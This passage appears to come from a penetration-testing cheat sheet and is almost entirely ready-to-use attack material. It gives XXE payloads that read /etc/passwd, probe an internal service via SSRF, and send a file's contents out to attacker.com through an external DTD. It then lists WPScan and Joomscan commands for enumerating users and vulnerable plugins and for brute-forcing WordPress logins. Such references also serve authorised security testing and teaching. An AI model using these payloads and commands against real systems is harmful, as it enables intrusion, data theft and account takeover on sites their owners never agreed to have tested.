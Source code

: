 ### Exploitation
```xml
# File read
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

# SSRF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://internal-service:8080">
]>
<root>&xxe;</root>

# Out-of-band data exfiltration
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
%dtd;
]>
<root>&send;</root>

# Content of evil.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;
```

## CMS Scanning

### WordPress
```bash
# WPScan basic usage
wpscan --url http://target.com/wordpress

# Enumerate users
wpscan --url http://target.com/wordpress --enumerate u

# Enumerate vulnerable plugins
wpscan --url http://target.com/wordpress --enumerate vp

# Brute force login
wpscan --url http://target.com/wordpress --passwords wordlist.txt --usernames admin
```

### Joomla
```bash
# Joomscan basic usage
joomscan -u http://target.com

# With proxy
joomscan -u http://target.com --proxy http://127.0.0.1:8080
```
